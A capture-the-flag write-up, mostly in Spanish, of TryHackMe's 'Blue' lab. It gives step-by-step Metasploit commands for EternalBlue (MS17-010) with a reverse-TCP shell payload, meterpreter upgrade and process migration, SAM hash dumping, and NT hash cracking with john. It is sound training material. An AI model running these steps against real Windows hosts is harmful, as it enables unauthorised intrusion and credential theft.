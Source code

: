 # Blue — Writeup

**Fecha:** 10-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se detectó un servicio SMB en un Windows 7 en el puerto 445, se explotó la vulnerabilidad MS17-010 (EternalBlue) con Metasploit para obtener shell, se elevó a meterpreter y se migró a services.exe, se volcó el SAM con hashdump, se crackeó la contraseña de Jon con john (rockyou) y con ese acceso se leyeron las tres flags.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)
**Search Exploit**
```bash
  $ msfconsole
  msf > search windows 7 eternalblue
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```
**Comment:** ``msfconsole`` abre la interfaz de Metasploit.


**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
	{...}
  meterpreter > 
```
## Privilege Escalation

**Shell to Meterpreter**
```bash
 meterpreter > (CTRL+Z) 
Background session 1? [y/N] y
msf > search shell_to_meterpreter
#  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade
```
**List Sessions**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions -l
Active sessions
===============
  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)

```
**Set & Run Meterpreter Shell**
```bash
 msf > Use 0
 msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
 msf post(multi/manage/shell_to_meterpreter) > run
		{...}
 msf post(multi/manage/shell_to_meterpreter) > sessions -l
Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)
  2			meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              $IP -> $IP ($IP)

 msf post(multi/manage/shell_to_meterpreter) > sessions 2
 meterpreter >
```

**Migrate Shell**
```bash
meterpreter > ps
Process List
============

 PID   PPID  Name            Arch  Session  User                      Path
 ---   ----  ----            ----  -------  ----                      ----
 716   616   services.exe    x64   0        NT AUTHORITY\SYSTEM       C:\Windows\system32\serv
                                                                      ices.exe
meterpreter > migrate 716
[*] Migrating from 704 to 716...
[*] Migration completed successfully.
```
**Comment:** Migramos la shell a un proceso mas estable.

## Hash
**Getting Hash**
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

**Cracking**
```bash
$ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > userhash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT userhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED         (?)     
1g 0:00:00:01 DONE (2025-10-10 15:29) 0.9174g/s 9358Kp/s 9358Kc/s 9358KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

## Flags
**Flag 1**
```bash
meterpreter > cd /
meterpreter > cat flag1.txt
```

**Flag 2**
```bash
meterpreter > cd /Windows/system32/config
meterpreter > cat flag2.txt
```

**Flag 3**
```bash
meterpreter > cd /Users/Jon/Documents
meterpreter > cat flag3.txt
```
